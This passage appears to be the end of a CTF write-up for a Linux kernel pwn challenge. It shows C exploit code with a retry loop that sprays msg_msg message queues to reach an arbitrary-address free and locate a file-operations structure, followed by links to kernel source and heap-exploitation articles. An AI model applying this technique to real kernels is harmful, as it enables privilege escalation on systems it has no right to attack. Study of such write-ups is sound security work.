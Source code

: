 ```c
    }
```

- Retry when it's possible
```c
    msgQueueSend(msgid3,"Refill3",0x50,ct++);

    size_t * verify = &res->mtext[0xfd0];
    int ccc = 1;
    int msgid = 0;
    if( (0xfff & (size_t)(*verify)) == 0xfd0)
        puts("[+] Good Luck!");
    else{
        // Build a retry loop will try to find a fop struct.
        while(1){
            puts("[!] Retry");
            // We can quickly refill it
            ccc++;
            edit(-1,strcat(realloc(dp('\xff',2+8+8),0x80),p64(leaked_heap32+0x20*ccc-8)));
            // Prepare
            msgid = msgQueueCreate(strcat(strdup("/home/user/"),str(ccc+0x67)));
            // AAF
            res = msgQueueRecv(msgid3,0xfd0+0x8,0);
            msgQueueSend(msgid,"Refillloop",0x50,ct++);
            msgid3= msgid;
            verify = &res->mtext[0xfd0];
            if( (0xfff & (size_t)(*verify)) == 0xfd0)
                break;
        }
    }
```


[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips